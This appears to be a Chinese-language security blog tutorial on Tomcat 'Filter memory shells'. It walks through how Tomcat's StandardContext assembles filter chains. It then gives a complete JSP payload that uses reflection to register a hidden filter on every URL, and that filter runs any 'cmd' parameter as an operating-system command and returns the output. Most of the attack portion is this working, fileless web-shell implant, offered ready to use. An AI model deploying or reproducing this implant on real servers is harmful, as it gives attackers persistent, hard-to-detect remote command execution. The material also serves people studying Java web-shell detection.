

## Tomcat-Filter内存马

## 基础介绍

`filter`就相当于就是过滤器，是在servlet之前就会调用的。所以我们如果创建一个恶意的filter，其中放着可以进行RCE的代码，在访问servlet的时候就会触发这个恶意代码，从而实现一个Tomcat的内存马。


## 流程分析

demo代码:利用了注解，就不需要在web.xml文件中进行配置

```java
package memory.Filter;

import javax.servlet.*;
import javax.servlet.annotation.WebFilter;
import java.io.*;

@WebFilter(urlPatterns = "/*")
public class TestFilter implements Filter {
    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
        System.out.println("init filter");
    }

    @Override
    public void doFilter(ServletRequest req, ServletResponse resp, FilterChain chain) throws IOException, ServletException {
        System.out.println("doFilter进入servlet前");
        chain.doFilter(req,resp);
        System.out.println("doFilter进入servlet后");
    }

    @Override
    public void destroy() {
        System.out.println("destroy filter");
    }
}

```

首先我们需要动态构建一个恶意的Filter并且调用触发`doFilter`这个重载方法，我们就需要这个函数怎么触发的？


在` internalDoFilter`方法中，从`filters`属性中获取一个`filterconfig`，然后进行调用`dofilter`方法


所以我们就需要在`ApplicationFilterChain`类的对象实例中设置filter属性为我们的恶意filter

继续看`ApplicationFilterChain`类的实例怎么获取的？


在`createFilterChain`方法中,`findFilterMaps`和`findFilterConfig`,这两个关键的方法来组装一个filterchain


一张经典的图展示这个过程


## 内存马流程分析

最关键的就是`findFilterMaps()`和`findFilterConfig()`两个方法，我们先看怎么实现的？


所以我们需要对`FilterMaps`和`FilterConfig`这两个属性进行设置

看`StandardContext`类，有没有相关的方法可以设置属性

首先看filtermaps，StandardContext直接提供了对应的添加方法(Before是将filter放在首位，正是我们需要的)，这里再往filterMaps添加之前会有一个校验filtermap是否合法的操作，跟进`validateFilterMap()`:


这个位置它会根据filterName去寻找对应的filterDef，如果没找到的话会直接抛出异常，也就是说我们还需要往filterDefs里添加filterDef。


再看filterDefs，StandardContext也直接提供了对应的添加方法:



继续看filterConfigs,没有addFilterConfig这个方法，我们利用反射进行赋值

还需要注意的是：


所以我们还需要设置Dispatcher，设置DispatcherType.REQUEST.name()就可以了


总结下Filter型内存马(即动态创建filter)的步骤:

>1.获取StandardContext
>
>2.编写一个恶意的filter
>
>3.实例化一个FilterDef类，包装filter并存放到StandardContext.filterDefs中
>
>4.实例化一个FilterMap类，将我们的 Filter 和 urlpattern 相对应，存放到StandardContext.filterMaps中
>
>5.通过反射获取filterConfigs，实例化一个FilterConfig(ApplicationFilterConfig)类，传入StandardContext与filterDefs，存放到filterConfig中

代码：

```jsp
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>

<%
    final String name = "z3eyond";
    ServletContext servletContext = request.getSession().getServletContext();

    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

    Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
    Configs.setAccessible(true);
    Map filterConfigs = (Map) Configs.get(standardContext);

    if (filterConfigs.get(name) == null){
        Filter filter = new Filter() {
            @Override
            public void init(FilterConfig filterConfig) throws ServletException {

            }

            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                HttpServletRequest req = (HttpServletRequest) servletRequest;
                if (req.getParameter("cmd") != null){
                    byte[] bytes = new byte[1024];
                    Process process = new ProcessBuilder("cmd","/c",req.getParameter("cmd")).start();
                    int len = process.getInputStream().read(bytes);
                    servletResponse.getWriter().write(new String(bytes,0,len));
                    process.destroy();
                    return;
                }
                filterChain.doFilter(servletRequest,servletResponse);
            }

            @Override
            public void destroy() {

            }

        };


        FilterDef filterDef = new FilterDef();
        filterDef.setFilter(filter);
        filterDef.setFilterName(name);
        filterDef.setFilterClass(filter.getClass().getName());
        standardContext.addFilterDef(filterDef);

        FilterMap filterMap = new FilterMap();
        filterMap.addURLPattern("/*");
        filterMap.setFilterName(name);
        filterMap.setDispatcher(DispatcherType.REQUEST.name());

        standardContext.addFilterMapBefore(filterMap);

        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
        constructor.setAccessible(true);
        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);

        filterConfigs.put(name,filterConfig);
        out.print("Inject Success !");
    }
%>
```

参考文章：

https://longlone.top/%E5%AE%89%E5%85%A8/java/java%E5%AE%89%E5%85%A8/%E5%86%85%E5%AD%98%E9%A9%AC/Tomcat-Filter%E5%9E%8B/

### 获取StandardContext方法

```java
ServletContext servletContext = request.getSession().getServletContext();

Field appctx = servletContext.getClass().getDeclaredField("context");
appctx.setAccessible(true);
ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

Field stdctx = applicationContext.getClass().getDeclaredField("context");
stdctx.setAccessible(true);
StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
```

